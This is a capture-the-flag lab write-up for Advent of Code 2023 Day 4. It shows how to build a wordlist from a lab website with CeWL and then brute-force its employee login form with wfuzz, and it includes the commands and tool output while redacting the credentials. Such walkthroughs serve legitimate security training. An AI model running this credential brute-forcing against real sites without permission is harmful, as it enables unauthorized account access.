 # AoC 2023 - Day 4

> `Brute-forcing` Baby, it's CeWLd outside

## Learning Objectives
> - What is `CeWL`?
> - What are the capabilities of `CeWL`?
> - How can we leverage `CeWL` to generate a custom wordlist from a website?
> - How can we customise the tool's output for specific tasks?

## Steps

```bash
└─$ export box=10.10.208.167
└─$ firefox $box
```

AntarctiCrafts webside is shown.

### Generating a `wordlist` based on the contents of the website.
```bash
└─$ cewl $box -w output.txt
CeWL 6.1 (Max Length) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```

### Employee Portal
Using the list of employees from the `/team` page and the generated wordlist, I can try brute-forcing the login form.

```bash
└─$ wfuzz -c -z file,files/usernames.txt -z file,files/output.txt --hs "Please enter the correct credentials" -u $box/login.php -d "username=FUZZ&password=FUZ2Z"
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.208.167/login.php
Total requests: 2124

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000696:   302        118 L    297 W      4442 Ch     "{REDACTED}"

Total time: 7.878680
Processed Requests: 2124
Filtered Requests: 2123
Requests/sec.: 269.5882
```

## Question 1

> What is the correct username and password combination? Format username:password

Output is given from `wfuzz`.

## Question 2

> What is the flag?

The flag is found in the `Webmail` part of the employee portal.
